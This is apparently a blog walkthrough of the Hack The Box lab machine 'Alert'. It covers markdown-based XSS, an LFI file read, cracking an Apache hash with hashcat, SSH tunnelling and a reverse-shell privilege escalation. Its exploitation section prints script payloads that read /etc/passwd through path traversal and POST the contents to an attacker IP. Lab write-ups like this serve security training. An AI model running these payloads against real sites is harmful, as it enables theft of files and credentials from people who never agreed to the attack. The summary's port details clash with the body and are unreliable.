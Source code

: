 ```yaml
---
title: "Alert Walkthrough(Hack The Box)"
date: 2025-03-22
draft: false 
description: "a description"
tags: ["Easy", "Linux", "Hack The Box", "Hacking", "Web", "Walkthrough"]
 
---
```


## Reconnaissance & Enumeration
- Started with a Nmap scan, revealing open ports: 22, 80.
![Pasted image 20241218005036.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218005036.png?raw=true)
- From the scan results I can also see `12227` port open which is also interesting.
- The scan results showed that Apache2 was hosting the website.
- The website featured a markdown reader page, The Basic functionality of this website is, get's markdown file from the user and then reads the contents of the particular file for displaying it's contents on the website.
- This website also included a share option for the rendered content. Again, it also has a simple `contact form`
- Now it should be obivious that this website uses HTML and JavaScript to render the contents like any other site on the internet
![obivious](https://media1.tenor.com/m/jc-G9cs4QVAAAAAC/station-19-maya-bishop.gif)
- I uploaded a `.md` file with JavaScript snippet init for testing, below were the contents of my md file  
![Pasted image 20241218005523.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218005523.png?raw=true)
- As expected the contents were rendered and loaded like this
![Pasted image 20241218005550.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218005550.png?raw=true)
- This is quite bad. It can execute arbitrary code as it renders the contents

## Exploitation
- Also another functionality in this website is pretty straight forward, where in `contact form` whatever link is filled and sent seems to be clicked by an admin. 
- We can easily get the admin's cookie by making a `.md` file with malicious payload and by sharing the `.md` file link using the share option to the admin through the contact form. The admin will eventually click the link and it will make the code to execute on his browser potentially sending the cookie to us(Attacker). 
- More dangerously we could also read arbitrary files using the `message.php` 
- So to exploit this LFI vulnerability I tried this payload and opened a nc on other side. 


```js
<script>
fetch("http://alert.htb/messages.php?file=/etc/passwd").then(response => response.text())
  .then(data => fetch("http://10.10.14.12:6001", {
      method: "POST",
      body: data
  }));
   
</script>
```
- To trigger this payload, View it and use the share option and get the link, share it to the dumb admin via contact form.
![dumb](https://media1.tenor.com/m/szyfm5XeQmAAAAAC/life.gif)
- After many tries I got this correct I modified the payload accordingly to read the target file 

```js
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../etc/passwd").then(response => response.text())
  .then(data => fetch("http://10.10.14.12:6001", {
      method: "POST",
      body: data
  }));
   
</script>
```
![Pasted image 20241218010840.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218010840.png?raw=true)
- Found couple of users. The configs for apache2 websites generally resides at `/etc/apache2/sites-available/000-default.conf` I learnt this from enumerating my own machine.
![lies-within-you](https://media1.tenor.com/m/fG6zxAnLtWsAAAAC/vegito-db.gif)
![Pasted image 20241218011112.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218011112.png?raw=true)
- After I modified the original payload to read this configuration file and  I got the output.
![Pasted image 20241218011242.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218011242.png?raw=true)
- Got the `.htpasswd` location. Usually this file contains the passwords or hashes for apache2.
- Within that file, password hash for user `albert` was there  
![Pasted image 20241218011625.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218011625.png?raw=true)
- Let's crack the hash I used hashcat to crack this hash 
```bash
hashcat hash.txt  /usr/share/wordlists/rockyou.txt -m 1600 --username
```
- Here I specified module `1600` to crack apache type hash and with as `albert` username is presented with the hash we have to specify `--username` flag
![Pasted image 20241218012743.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218012743.png?raw=true)
- Now I can use ssh to login as user `albert`
- I got the {{< keyword >}} User flag {{< /keyword >}}

{{< alert icon="circle-info" >}} Sorry I accidently nuked the user flag image {{< /alert >}} 
## Privilege Escalation
- General SUID, SGID, Capabilities didn't had anything promising
- But anyway there was a internal web service running on port 80 `ss -tunlp` so I tunneled it to my machine via ssh on port 2000.
```
ssh -L 2000:localhost:8080 albert@alert.Hack The Box
```
![Pasted image 20241218014520.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218014520.png?raw=true)
- The web service name is litterely  `websitemonitor` which tracks and monitor the websites like `alert.htb`
- I found the website's directory location at `/opt/websitemonitor`
- The configuration files for this website are stored within `/config`
![Pasted image 20241218020002.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218020002.png?raw=true)
- The the web root folder of this website has root privileges and Albert also have access to modify it.
- So to escalate my privileges I changed the file to a reverseshell.
![Pasted image 20241218020421.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218020421.png?raw=true)
- Eventually secured {{< keyword >}} Root flag {{< /keyword >}}
![Pasted image 20241218020525.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241218020525.png?raw=true)

![summary](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExZzgzZzA3MzJyd3M3c3p1NjgzNW53cXZubnA2NW94ZWNncnF6NXQzYSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/j5rIZnN3n3i19hxx8T/giphy.gif)
## Summary

The "Alert" box was approached with an initial **reconnaissance** phase where an nmap scan revealed three open ports: SSH (port 22) and a web server (port 80). The web server was identified as running Apache2 and hosting a Markdown reader page.

During the **enumeration** phase, it was discovered that the Markdown reader could execute code embedded within the Markdown content. Additionally, a contact form was found to be exploitable because the administrator would click on links sent through it without analyzing them, suggesting a potential **Local File Inclusion (LFI)** vulnerability. This LFI was exploited by crafting a payload and sending it to the admin via the contact form. This allowed for the discovery of user information and the location of the Apache2 configuration file, which contained the path to the `.htpasswd` file. The password hash for the user `albert` was found within this file.

The **exploitation** phase also involved cracking `albert`'s password hash using `hashcat`. The cracked password enabled successful SSH login, granting initial user access and the user flag.

For **privilege escalation**, an internal web service named "websitemonitor" was discovered running on port 8080. This port was tunneled to the attacker's machine via SSH. The configuration files for "websitemonitor," including the web root, were located in `/opt/websitemonitor/config`. As the user `albert` and root had permissions to modify files in the web directory,I replaced a file with a reverse shell, leading to root access and the acquisition of the root flag.

{{< typeit >}} This is a small and straightforward walkthrough for the box Alert, I hope you liked this if so kindly check my other posts too. Thank you, see you again {{< /typeit >}}

![bye](https://media.tenor.com/RlCHjOKEpaMAAAAi/rabbit-animal.gif)

